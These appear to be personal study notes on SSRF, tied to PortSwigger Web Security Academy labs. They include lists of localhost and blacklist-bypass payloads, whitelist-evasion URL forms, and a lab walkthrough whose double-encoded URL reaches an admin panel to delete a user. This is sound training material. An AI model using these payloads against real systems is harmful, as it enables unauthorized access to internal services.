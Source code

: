 **Basic SSRF against the local server**

- Basic SSRF : 
![[SSRF1.png]]

![[SSRF2.png]]

**Basic SSRF against another back-end system**

- Other easy case : 
![[SSRF3.png]]

**SSRF with blacklist-based input filter**

`Bypass with double encoding `: https://owasp.org/www-community/Double_Encoding
`BYpass with url structure` : 127.0.0.1 --> 127.1  https://highon.coffee/blog/ssrf-cheat-sheet/
Localhost bypass:

```bash
All IPv4: 0
All IPv6: ::
All IPv4: 0.0.0.0
Localhost IPv6: ::1
All IPv4: 0000
All IPv4: (Leading zeros): 00000000
IPv4 mapped IPv6 address: 0:0:0:0:0:FFFF:7F00:0001
8-Bit Octal conversion: 0177.00.00.01
32-Bit Octal conversion: 017700000001
32-Bit Hex conversion: 0x7f000001
```

Various bypasses:

```bash
127.0.0.1:80
127.0.0.1:443
127.0.0.1:22
127.1:80
0
0.0.0.0:80
localhost:80
[::]:80/
[::]:25/ SMTP
[::]:3128/ Squid
[0000::1]:80/
[0:0:0:0:0:ffff:127.0.0.1]/thefile
①②⑦.⓪.⓪.⓪
127.127.127.127
127.0.1.3
127.0.0.0
2130706433/
017700000001
3232235521/
3232235777/
0x7f000001/
0xc0a80014/
{domain}@127.0.0.1
127.0.0.1#{domain}
{domain}.127.0.0.1
127.0.0.1/{domain}
127.0.0.1/?d={domain}
{domain}@127.0.0.1
127.0.0.1#{domain}
{domain}.127.0.0.1
127.0.0.1/{domain}
127.0.0.1/?d={domain}
{domain}@localhost
localhost#{domain}
{domain}.localhost
localhost/{domain}
localhost/?d={domain}
127.0.0.1%00{domain}
127.0.0.1?{domain}
127.0.0.1///{domain}
127.0.0.1%00{domain}
127.0.0.1?{domain}
127.0.0.1///{domain}st:+11211aaa
st:00011211aaaa
0/
127.1
127.0.1
1.1.1.1 &@2.2.2.2# @3.3.3.3/
127.1.1.1:80\@127.2.2.2:80/
127.1.1.1:80\@@127.2.2.2:80/
127.1.1.1:80:\@@127.2.2.2:80/
127.1.1.1:80#\@127.2.2.2:80/
```

`Look for Domain that resolve 127.0.0.1`

**SSRF with whitelist-based input filters**

The URL specification contains a number of features that are likely to be overlooked when URLs implement ad-hoc parsing and validation using this method:

- You can embed credentials in a URL before the hostname, using the `@` character. For example:
    
    `https://expected-host:fakepassword@evil-host`
- You can use the `#` character to indicate a URL fragment. For example:
    
    `https://evil-host#expected-host`
- You can leverage the DNS naming hierarchy to place required input into a fully-qualified DNS name that you control. For example:
    
    `https://expected-host.evil-host`
- You can URL-encode characters to confuse the URL-parsing code. This is particularly useful if the code that implements the filter handles URL-encoded characters differently than the code that performs the back-end HTTP request. You can also try [double-encoding](https://portswigger.net/web-security/essential-skills/obfuscating-attacks-using-encodings#obfuscation-via-double-url-encoding) characters; some servers recursively URL-decode the input they receive, which can lead to further discrepancies.

- You can use combinations of these techniques together.

Example : 

1. Visit a product, click "Check stock", intercept the request in Burp Suite, and send it to Burp Repeater.
2. Change the URL in the `stockApi` parameter to `http://127.0.0.1/` and observe that the application is parsing the URL, extracting the hostname, and validating it against a whitelist.
3. Change the URL to `http://username@stock.weliketoshop.net/` and observe that this is accepted, indicating that the URL parser supports embedded credentials.
4. Append a `#` to the username and observe that the URL is now rejected.
5. Double-URL encode the `#` to `%2523` and observe the extremely suspicious "Internal Server Error" response, indicating that the server may have attempted to connect to "username".
6. To access the admin interface and delete the target user, change the URL to:
    
    `http://localhost:80%2523@stock.weliketoshop.net/admin/delete?username=carlos`


You can also proc a ssrf with an Open redirect . Check this link for a little reminder : https://portswigger.net/web-security/ssrf/lab-ssrf-filter-bypass-via-open-redirection

 **Blind SSRF with out-of-band detection**
 
Lab : https://portswigger.net/web-security/ssrf/blind


**Blind SSRF with Shellshock exploitation**

Lab: https://portswigger.net/web-security/ssrf/blind/lab-shellshock-exploitation

Resource : 
https://portswigger.net/research/cracking-the-lens-targeting-https-hidden-attack-surface#remoteclient